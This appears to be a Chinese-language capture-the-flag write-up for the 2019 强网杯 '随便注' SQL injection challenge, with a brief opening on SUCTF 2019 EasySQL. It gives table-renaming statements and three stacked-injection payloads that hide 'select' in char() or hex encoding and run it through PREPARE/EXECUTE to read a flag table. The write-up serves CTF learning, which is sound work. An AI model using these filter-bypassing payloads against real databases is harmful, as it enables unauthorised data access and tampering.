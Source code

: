 
## [强网杯 2019]随便注
```cpp
alter table words rename to word;
将words表重命名为word

alter table`1919810931114514` rename to words;
将1919810931114514表重命名为words

alter table words change flag data varchar(100);
将表words（原表1919810931114514）中的列名flag改为data

alter table words add column id int(10) default 1 --+
在words表中插入id列
```



预处理语句使用方式：

```sql
PREPARE name from '[my sql sequece]';   //预定义SQL语句
EXECUTE name;  //执行预定义SQL语句
(DEALLOCATE || DROP) PREPARE name;  //删除预定义SQL语句
```

预定义语句也可以通过变量进行传递:

```sql
SET @tn = 'hahaha';  //存储表名
SET @sql = concat('select * from ', @tn);  //存储SQL语句
PREPARE name from @sql;   //预定义SQL语句
EXECUTE name;  //执行预定义SQL语句
(DEALLOCATE || DROP) PREPARE sqla;  //删除预定义SQL语句
```
payload:
```
1';PREPARE jwt from concat(char(115,101,108,101,99,116), ' * from `1919810931114514` ');EXECUTE jwt;#
```
```sql
1';SeT@a=0x73656c656374202a2066726f6d20603139313938313039333131313435313460;prepare execsql from @a;execute execsql;#
```

```sql
1';SET @sql=concat(char(115,101,108,101,99,116)," * from `1919810931114514`");PREPARE sqla from @sql;EXECUTE sqla;#
```

---



## [SUCTF 2019]EasySQL

1.尝试 `‘   ’‘   ）   ))    ')     ")     '))   ")),找不到字符型注入点
